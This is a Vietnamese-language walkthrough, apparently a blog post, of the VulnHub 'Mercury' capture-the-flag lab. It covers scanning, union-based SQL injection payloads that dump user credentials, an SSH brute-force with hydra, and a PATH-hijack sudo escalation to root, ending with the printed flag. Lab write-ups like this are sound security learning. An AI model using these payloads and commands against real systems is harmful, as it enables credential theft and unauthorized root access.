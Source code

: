 ```yaml
---
title: "The Planets: Mercury Writeup - VulnHub"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
  - The Planets
render_with_liquid: false
date: "2023-07-22 20:25:45"
---
```


Download [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/){:target="\_blank"}

**Level**: Easy

## Scanning

<br>
Sử dụng **arp-scan** để xác định ip máy chủ mục tiêu

![scan ip](/posts/mercury-walkthrough/scan-ip.png)

Sau khi xác định được ip, tiến hành scan các port dịch vụ. Thử scan các known port trước cho đỡ tốn thời gian

![scan port](/posts/mercury-walkthrough/scan-port.png)

Thấy được 2 services đang hoạt động, ssh port 22 và web server port 8080. Thử truy cập webpage `http://10.0.2.4:8080`
xem khám phá được gì không

![run website](/posts/mercury-walkthrough/website.PNG)

Response trả về là 1 thông báo rằng site đang trong quá trình phát triển, ta có thể đoán có 1 hoặc 1 số ứng dụng web đang chạy trên máy mục tiêu. Tiến hành enumerate files phổ biến, có thể sử dụng tools `dirb`, `dirsearch`, `gobuster`, ...

![enumerate files](/posts/mercury-walkthrough/enumerate-files.PNG)

Truy cập `/robots.txt` cũng không có manh mối gì. Nhưng may mắn thay, trong khi mình thử random 1 số file thì nó hiển thị ra 1 số errors do dev quên không tắt tính năng debug :))

![enumerate files](/posts/mercury-walkthrough/clue.PNG)

Phát hiện được có tồn tại một folder `mercuryfacts/`. Truy cập nó và xem nó có gì

![mercuryfacts](/posts/mercury-walkthrough/mercuryfacts.PNG)

![load a fact](/posts/mercury-walkthrough/load-a-fact.PNG)

Ở đây có xuất hiện 2 link, Truy cập <u>Load a fact</u> thì trang này có chứa dữ liệu trả về theo id từ url, khả năng gọi từ database nên mình test thử sql injection bằng cách chèn nháy đơn:

![sql error](/posts/mercury-walkthrough/sql-error.PNG)

Không còn nghi ngờ gì nữa, site này dính SQLi và trang debug hiển thị lỗi sql, cho thấy rằng payload của ta được chấp nhận để truy vấn vào database. Hơn thế nữa, dựa vào syntax error xác định được Union-based SQLi. Mở Burp và tiến hành khai thác.
<br>

## Exploitation

Thử câu truy vấn "thần thánh" `or 1=1` để bắt đầu khai thác:

```plaintext
/mercuryfacts/1 or 1=1
```

![exploit](/posts/mercury-walkthrough/exploit-1.PNG)

Đúng như mong đợi, kết quả là đã dump được tất cả các row trong sự kiện này (À, trước khi gửi request thì url-encode đã nhé!)
<br>

Tiếp tục với câu lệnh UNION, tiến hành exploit tên database

```
/mercuryfacts/1 union select database()
```

![exploit](/posts/mercury-walkthrough/exploit-3.PNG)

Tìm tên các bảng từ database đã tìm được, tham chiếu từ `information_schema`.

```
/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'/
```

![exploit](/posts/mercury-walkthrough/exploit-4.PNG)

Có 2 bảng được trích xuất, nhưng chỉ cần quan tâm đến bảng `users`.

```
/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns where table_schema='mercury' and table_name='users'/
```

![exploit](/posts/mercury-walkthrough/exploit-5.PNG)

Lần lượt dump username và password.

```
/mercuryfacts/1 union select group_concat(username) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-6.PNG)

```
/mercuryfacts/1 union select group_concat(password) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-7.PNG)

Nhớ ra rằng ssh đang chạy cổng 22. Quá là lười thử từng username và password nên mình sẽ lựa chọn `hydra` để tổ hợp từng username password và login vô ssh.

```shell
hydra -L username.txt -P password.txt ssh://10.0.2.4 -V
```

![exploit](/posts/mercury-walkthrough/exploit-8.PNG)

Kết quả có 2 combination (nhưng là vì lab này đã được custom lại nên có thêm user `cmcleuleu`, còn bản gốc thì user_flag nằm ngay trong user `webmaster`). Tiến hành login user `cmcleuleu` và get user flag.

![user flag](/posts/mercury-walkthrough/user_flag.PNG)

Switch user qua `webmaster` và thực hiện Privilege Escalation.

## Privilege Escalation

Khám phá một lúc thì phát hiện được có 1 secret notes nằm trong thư mục dự án

![secret notes](/posts/mercury-walkthrough/secret_notes.PNG)

Decode base64 ta nhận được password của `linuxmaster`, su `linuxmaster` và tìm kiếm root flag

![linuxmaster user](/posts/mercury-walkthrough/linuxmaster.PNG)

Kiểm tra đặc quyền của _linuxmaster_ thông qua `sudo -l`

![linuxmaster privilege](/posts/mercury-walkthrough/linuxmaster-privilege.PNG)

Có thể thấy, user có thể thực thi script `/usr/bin/check_syslog.sh` với quyền _root_ và lại được set preserved environment. Kiểm tra xem file `check_syslog.sh` có gì:

![check_syslog.sh](/posts/mercury-walkthrough/check_syslog.PNG)

User không có quyền ghi file `check_syslog.sh` nhưng có thể thực thi nó, hơn thế nữa trong shell script có chứa lệnh `tail` được gọi. Ý tưởng là ghi đè lệnh tail để gọi shell cùng với đó là chạy dưới quyền root.

```shell
linuxmaster@cmclabs1:~$ echo "/bin/bash" > tail
linuxmaster@cmclabs1:~$ chmod 777 tail
linuxmaster@cmclabs1:~$ export PATH=$(pwd):$PATH
```

Cuối cùng, thực thi script `check_syslog.sh` dưới chế độ _preserved environment_ cho PATH:

```shell
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

bÙm..

```shell
root@cmclabs1:/home/linuxmaster# cd /root
root@cmclabs1:~# ls
root_flag.txt
root@cmclabs1:~# cat *
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations!!!
If you have any feedback please contact me at autosys@cmcinfosec.com
[root_cmcsoc_flag_1a7e3807f7122beb1527b54d6b46aad3]
```
